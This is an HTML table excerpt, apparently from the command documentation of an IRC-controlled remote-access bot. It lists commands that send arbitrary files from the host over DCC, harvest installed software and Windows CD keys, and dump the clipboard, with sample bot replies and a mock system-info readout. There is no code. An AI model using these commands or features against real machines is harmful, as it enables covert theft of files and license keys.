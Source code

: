 
<TR>
<TD>
get
</TD>
<TD>
gt
</TD>
<TD>
.get &lt;file&gt;
</TD>
<TD>
Sends a file via DCC.
</TD>
<TD>
&lt;<SPAN class="user">@moose</SPAN>&gt; .get C:\Screenshot.jpg<BR />
&lt;<SPAN class="bot">camel</SPAN>&gt; [DCC]: Send File: C:\Screenshot.jpg, User: moose.
</TD>
</TR>


<TR>
<TD>
getcdkeys
</TD>
<TD>
key
</TD>
<TD>
.getcdkeys
</TD>
<TD>
Returns keys of products installed on the computer. Includes games and Microsoft products.
</TD>
<TD>
&lt;<SPAN class="user">@moose</SPAN>&gt; .getcdkeys<BR />
&lt;<SPAN class="bot">camel</SPAN>&gt; Microsoft Windows Product ID CD Key: (11111-640-1111111-11111)<BR />
&lt;<SPAN class="bot">camel</SPAN>&gt; [CDKEYS]: Search completed.
</TD>
</TR>


<TR>
<TD>
getclip
</TD>
<TD>
gc
</TD>
<TD>
.getclip
</TD>
<TD>
Prints out whatever is in the clipboard at that time.
</TD>
<TD>
&lt;<SPAN class="user">@moose</SPAN>&gt; .getclip<BR />
&lt;<SPAN class="bot">camel</SPAN>&gt; -[Clipboard Data]-<BR />
&lt;<SPAN class="bot">camel</SPAN>&gt; http://www.goat.cx
</TD>
</TR>


[<B>Disk</b>]: 10,506,476KB total, 4,446,864KB free. [<B>OS</b>]: Windows XP (Service Pack 1) (5.1, Build 2600).
[<B>Sysdir</b>]: C:\WINDOWS\System32. [<B>Hostname</b>]: microsoft.com (207.46.134.155). [<B>Current User</b>]: Bill Gates.
[<B>Date</b>]: 02:Jun:2004. [<B>Time</b>]: 23:04:47. [<B>Uptime</b>]: 17d 8h 28m.